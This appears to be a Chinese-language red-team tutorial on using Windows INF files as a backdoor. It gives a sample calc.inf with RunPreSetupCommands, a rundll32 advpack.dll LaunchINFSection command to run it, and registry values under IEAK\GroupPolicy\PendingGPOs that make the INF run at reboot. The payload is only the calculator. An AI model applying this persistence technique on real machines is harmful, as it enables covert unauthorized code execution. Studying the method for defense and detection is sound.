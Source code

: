 ```yaml
---
title: 利用inf文件实现后门
id: zhfly3526
---
```


## 利用inf文件实现后门

`inf`文件

```
INF文件或安装信息文件是Microsoft Windows用于安装软件和驱动程序的纯文本文件。INF文件最常用于安装硬件组件的设备驱动程序。Windows包含用于创建基于INF的安装的IExpress工具。INF文件是Windows安装程序API及其后续版本Windows Installer的一部分。
PS：来自WIKI
inf`文件的结构
想了解更多可以看一下微软的手册：`https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-2000-server/cc939869(v=technet.10)#information-inf-file-entries
1\. DefaultInstall节（来自WIKI）
INF文件的结构与INI文件的结构非常类似; 它包含用于指定要复制的文件，对注册表的更改等的各个部分。所有INF文件都包含一个[Version]带有Signature 键值对的部分，用于指定INF文件所针对的Windows版本。签名通常是$CHICAGO$（对于Windows 9x）或$WINDOWS NT$（对于Windows NT / 2K / XP）。其余大多数部分是用户定义的，并且包含特定于要安装的组件的信息。 
3.  `DefaultInstall节（来自微软的手册）

    RunPreSetupCommands-本节中指定的命令在安装服务配置文件之前运行。

    RunPostSetupCommands-本节中指定的命令在安装程序完成服务配置文件后运行。

    RunPreUnInstCommands-本节中指定的命令在卸载程序开始之前运行。

    RunPostUnInstCommands-本节中指定的命令在卸载程序运行后运行。` 

```

下面举一个`calc.inf`弹计算器的例子

```
[Version]
Signature="$CHICAGO$"
AdvancedINF=2.5,"test"
[DefaultInstall]
RunPreSetupCommands=Command1
[Command1]
C:\windows\system32\calc.exe 
```

命令行下执行：

```
rundll32.exe advpack.dll,LaunchINFSection calc.inf,DefaultInstall 
```

效果如下：

![image](../img/b99dd59e996f8eb17905e3dce8e351d6.png)

后门实现：
在注册表`HKEY_CURRENT_USER\Software\Microsoft\`处依次新建子项`\IEAK\GroupPolicy\PendingGPOs`，然后再新建几个键，如下：

1.  键：`Count`，类型：`REG_DWORD`，键值：`1`
2.  键：`Path1`，类型：`REG_SZ`，键值：`C:\Users\Administrator\Desktop\test\calc.inf` //这个为我们inf文件的路径，这里以上面那个inf文件例子为例
3.  键：`Section1`，类型：`REG_SZ`，键值：`DefaultInstall`

如下图所示：

![image](../img/7a3e43fde53ef2c9168d83ca8f21a032.png)

重启电脑之后成功弹出计算器

![image](../img/3cf53ef528e55dda09ffbfe112ab6d93.png)

但是重启之后`PendingGPOs`该项就会被清除，需要我们重新修改注册表

![image](../img/d5929cf06034c2498bee0774b7d1915d.png)